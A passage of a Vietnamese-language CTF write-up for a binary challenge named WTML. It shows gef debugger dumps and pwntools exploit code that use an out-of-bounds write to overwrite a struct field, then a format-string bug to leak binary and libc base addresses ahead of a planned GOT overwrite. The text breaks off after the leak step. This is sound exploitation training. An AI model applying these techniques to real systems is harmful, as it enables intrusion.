 ```java
gef➤  x/5gx $rbp - 0x40
0x7fffffffe010: 0x4141414141414141      0x4141414141414141
0x7fffffffe020: 0x4141414141414141      0x4141414141414141
0x7fffffffe030: 0x0055555555520900
gef➤  x/x $rbp - 0x20
0x7fffffffe030: 0x0055555555520900
```
replacer.id chính là byte `\x00` sau cùng của chuỗi kia. Hãy nhớ là ta có lỗi out of bound ở replace_tag_v1 và có quyền thay đổi tag, ta sẽ lợi dụng điểm này để overwrite `replacer.id` đang nằm ngay sau `user_message`

```python
payload = b'<\0>'
payload = payload.ljust(30, b"A")
payload += b'</'
```
Đây là payload mình sẽ gửi, ta sẽ để tag muốn thay là \x00 và sẽ thay bằng \x01. Như vậy là có thể overwrite được id thành 1. Rồi từ replace_tag_v2 ta sẽ khai thác lỗi fmt. Khi đã gọi được replace_tag_v2, kiểm tra trong stack có các địa chỉ của binary và libc ở %29 và %53 nên leak luôn và mình định sẽ exploit bằng cách overwrite bảng got
```java

gef➤
...
gef➤
0x00007ffc94b2e5d0│+0x00a0: 0x0000000000000000
0x00007ffc94b2e5d8│+0x00a8: 0x00007f6db15ab980  →  0x00000000fbad208b
0x00007ffc94b2e5e0│+0x00b0: 0x00007f6db15a84a0  →  0x0000000000000000
0x00007ffc94b2e5e8│+0x00b8: 0x000055555a4ed120  →  <_start+0> endbr64
0x00007ffc94b2e5f0│+0x00c0: 0x00007ffc94b2e790  →  0x0000000000000001
...
gef➤
...
gef➤
...
0x00007ffc94b2e6a0│+0x0170: 0x0000000000000000
0x00007ffc94b2e6a8│+0x0178: 0x00007f6db13e3083  →  <__libc_start_main+243> mov edi, eax
0x00007ffc94b2e6b0│+0x0180: 0x00007f6db15e0620  →  0x00050f5a00000000
0x00007ffc94b2e6b8│+0x0188: 0x00007ffc94b2e798  →  0x00007ffc94b2f3c1  →  "/mnt/c/ctf/wctf/WTML/challenge_patched"
```
Ta sửa lại payload một chút 

```python
payload = b'%29$p%53$p'
payload += b'<\0>'
payload = payload.ljust(30, b"A")
payload += b'</'
p = process(exe.path)
p.sendafter(b'WTML!\n', payload)
p.sendlineafter(b'quit]?\n', b"\0")
p.sendlineafter(b'tag?\n', b"\x01")
# round 2
p.sendlineafter(b'quit]?\n', b"A")
p.sendlineafter(b'tag?\n', b"B")

p.recvuntil(b'[DEBUG] ')
exe_leak = int(p.recv(14),16)
libc_leak = int(p.recv(14),16)
libc.address = libc_leak - 147587
log.info('libc_base :'+ hex(libc.address))
exe.address = exe_leak - 4384
log.info('exe_base :'+ hex(exe.address))
```
```java
```